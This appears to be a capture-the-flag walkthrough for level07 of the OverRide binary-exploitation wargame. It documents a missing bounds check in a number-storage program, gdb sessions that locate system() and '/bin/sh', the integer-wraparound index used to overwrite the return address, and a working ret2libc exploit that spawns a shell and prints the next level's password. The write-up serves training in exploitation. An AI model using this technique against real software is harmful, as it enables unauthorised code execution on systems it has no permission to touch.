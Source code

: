 
# Walkthrough

**Main** : 
This program is a simple command-line utility for storing and reading numbers. It allows the user to perform three primary commands: "store," "read," and "quit.
It demonstrates simple input validation and provides a interface for interacting with the data storage.

**vurability:**
Lack of bounds checking: The program allows users to store numbers in an array (buffer) without performing proper bounds checking. Users can specify an index to store a number, and the program doesn't verify whether the index is within a valid range. This allows for potential buffer overflow or out-of-bounds memory access.

**Solution idea:**
The idea behind this solution is to manipulate the program's memory using the "store" command to store specific addresses at certain indices. By storing the address of the system function at a particular index and the address of "/bin/sh" at another index, the program can be exploited to execute arbitrary shell commands

**Process to exploit :**
>   1. **Find the address**
>   2. **exploit vunerability**



## Step 1
### Find the address
```
 gdb ./level07 
[...]
Input command: ^C
Program received signal SIGINT, Interrupt.
0xf7fdb440 in __kernel_vsyscall ()
(gdb) p &system
$1 = (<text variable, no debug info> *) 0xf7e6aed0 <system>
(gdb) find __libc_start_main,+9999999,"/bin/sh"
0xf7f897ec
```

 - system()  is  0xf7e6aed0  decimal 4159090384
 -  "/bin/sh" is    0xf7f897ec decimal 4160264172

# Step 2
### Exploit vunerability

The goal is to cause a buffer overflow by using a big index  to overwrite the value stored at that position in the data table. By changing this value in a controlled manner, we can make the Extended Instruction Pointer (EIP) point to a memory address of your choice, such as the address of the system() function, in order to execute arbitrary code.

```
Input command: store
 Number: 1094795585 ; decimal for 0x41414141 or 'AAAA'
 Index: 2147483762
 Completed store command successfully
Input command: quit

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? () 
(gdb) 
```

```
level07@OverRide:~$ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store
 Number: 4159090384 <--- address of sysem
 Index: 2147483762
 Completed store command successfully
Input command: store
 Number: 4160264172 <--- address of /bin/sh
 Index: 116
 Completed store command successfully
Input command: quit
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
$ 

```
